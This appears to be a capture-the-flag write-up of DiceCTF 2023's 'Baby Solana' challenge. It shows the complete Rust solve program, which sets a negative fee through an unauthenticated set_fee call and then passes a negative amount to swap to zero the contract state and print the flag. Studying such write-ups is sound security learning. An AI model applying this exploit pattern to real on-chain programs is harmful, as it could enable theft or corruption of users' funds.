 ```yaml
---
title: "Dice 23 Baby Solana"
date: 2023-02-19 18:05:30 -0400
categories: Pwn
---
```

# Baby Solana

## Remark
So this was my first Solana pwn/challenge.
It was a great learning experience seeing Rust at work interacting with Solana.
It seems to have an interesting syntax!

## Source Code
Extracting the given folder provides two folders: framework and framework-solve

I was mostly interested main.rs and lib.rs within the framework folder.

Observe the code in main.rs:
```
        let ix = chall::instruction::InitVirtualBalance {
            x: 1_000_000,
            y: 1_000_001,
        };
```
I'm not 100% sure about the Rust syntax, but it seems like initializing instance variables in a class of a trivial Object Oriented language; in this case x and y to 1,000,000 and 1,000,001 respectively.

and
```
        if state.x == 0 && state.y == 0 {
            writeln!(socket, "congrats!")?;
            if let Ok(flag) = env::var("FLAG") {
                writeln!(socket, "flag: {:?}", flag)?;
            } else {
                writeln!(socket, "flag not found, please contact admin")?;
            }
        }
```
This will print the flag if x and y are both set to zero. This will be our aim.

In lib.rs, we can find two methods set_fee and swap that interact with fee, x, and y. These will allow us to control x and y and eventually print the flag:
```
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```

## Attack Plan
We need to utilize these methods to manipulate the fee, x, and y.

We are given this code in lib.rs inside framework-solve folder:
```
pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        Ok(())
    }
```

I assume that I need to complete this method get_flag to "get flag."

By studying the method swap, I concluded that if I can pass a value of -1,000,000 to amt and set fee as -100, I can set x and y as 0.

We pretty much have to set the fee first in order to call swap for another account and make x and y zero.

If we take a look at lib.rs again:
```
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```
We see that the context needs to be AuthFee to call set_fee and Swap to call swap.
So I'll initialize two accounts, each being AuthFee and Swap type so that I could set the fee using AuthFee account and set x and y using Swap account.

## Exploiting
Within the framework-solve folder, I will edit lib.rs's getflag() method to call set_fee() and swap().

To call set_fee(), I need to create a AuthFee account, which can be set as:
```
let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };
```

Then, we can create an instance of fee_accs to be used to call set_fee like:
```
let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
```

and we call set_fee as:
```
chall::cpi::set_fee(fee, -100)?;
```

Similarily, we set account type Swap, create an instance, and call swap as follows:
```
let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
chall::cpi::swap(swap_cpi, -1_000_000)?;
```

Finally, running the provided ```./run.sh ``` gives us the flag.

## End
The final lib.rs looks like:
```
use anchor_lang::prelude::*;

use anchor_spl::token::Token;

declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
        chall::cpi::set_fee(fee, -100)?;

        let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
        chall::cpi::swap(swap_cpi, -1_000_000)?;

        Ok(())
    }
}

#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,

    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```
Thanks, 079.
